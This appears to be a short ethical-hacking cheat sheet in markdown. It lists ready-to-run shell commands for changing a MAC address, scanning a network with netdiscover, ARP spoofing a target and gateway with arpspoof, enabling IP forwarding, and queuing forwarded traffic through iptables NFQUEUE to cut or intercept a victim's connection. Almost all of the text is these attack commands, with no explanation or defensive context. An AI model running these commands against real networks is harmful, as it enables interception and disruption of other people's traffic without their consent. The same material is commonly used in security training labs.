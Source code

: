# Hetical hacking
## Change mac address 
```
ip link show
sudo ip link set dev <your device here> down
sudo ip link set dev <your device here> address <your new mac address>
sudo ip link set dev <your device here> up
```
## Netdiscover
Scan all devices connected to a network
```
sudo netdiscover -r ip.start/end
```
## ARP SPOOFING
```
arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
arpspoof -i eth0 -t 10.0.2.1 10.0.2.7

echo 1 > /proc/sys/net/ipv4/ip_forward
sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
```
## NET CUT
```
sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
pip3 install -U git+https://github.com/kti/python-netfilterqueue
sudo pip3 install -U git+https://github.com/kti/python-netfilterqueue
sudo iptables --flush
```